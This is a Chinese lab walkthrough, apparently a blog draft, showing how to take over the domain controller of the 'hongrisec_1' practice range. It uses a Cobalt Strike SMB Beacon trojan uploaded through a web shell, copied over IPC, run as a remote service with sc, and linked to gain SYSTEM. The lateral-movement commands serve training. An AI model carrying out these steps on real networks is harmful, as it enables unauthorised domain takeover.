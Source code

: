 +++
title = 'Part10.使用CS自带的SMB Beacon上线内网域控主机（内网穿透）'
date = 2024-10-10T11:35:24+08:00
draft = true

categories = ['渗透测试']

tags = ['hongrisec_1靶场']

weight = 101

+++

# Part10.使用CS自带的SMB Beacon上线内网域控主机（内网穿透）

### 在web服务器和域控之间建立流量隧道
为什么建立了ipc通道还要建立流量隧道

因为ipc只能传文件，不能传流量

SMB Beacon简介:
SMB Beacon使用命名管道通过父级Beacon进行通讯

当两个Beacons连接后，子Beacon从父Beacon获取到任务并发送

### 使用CS工具中的SMB Beacon

使用SMB
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171730181.png)
新建一个监听器，用作smb隧道 
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171732263.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171733740.png)
**明确总体思路**：

1. 在cs上生成smb木马
2. 通过AntSword上传文件到web服务器
3. web服务器通过ipc管道将木马文件上传到域控主机
4. 域控主机执行文件，与web服务器建立smb隧道
5. 流量再通过web服务器回到cs

上传smb木马到web服务器

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171738800.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171739300.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171739414.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171740018.png)

通过ipc管道上传文件到域控主机

```shell
shell copy smb_beacon.exe \\192.168.52.138\C$
```
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171742533.png)
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171749786.png)

通过ipc管道在域控主机下创建一个服务，执行木马

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171833393.png)

```shell
shell sc \\owa.god.org create test binpath= "cmd.exe /c c:\smb_beacon.exe" 
```
![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171756074.png)

开启服务
```shell
shell sc \\owa.god.org start test
```

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409171842014.png)
域控启动smb服务，web服务器也要发送连接命令，才能建立smb隧道
```shell
link owa.god.org
```
哪怕报1053错误，也可以link到，接下来成功上线

![image.png](https://gitee.com/huangzejie/drawing-bed/raw/master/202409181118339.png)
**上线成功，拿到owa，system权限**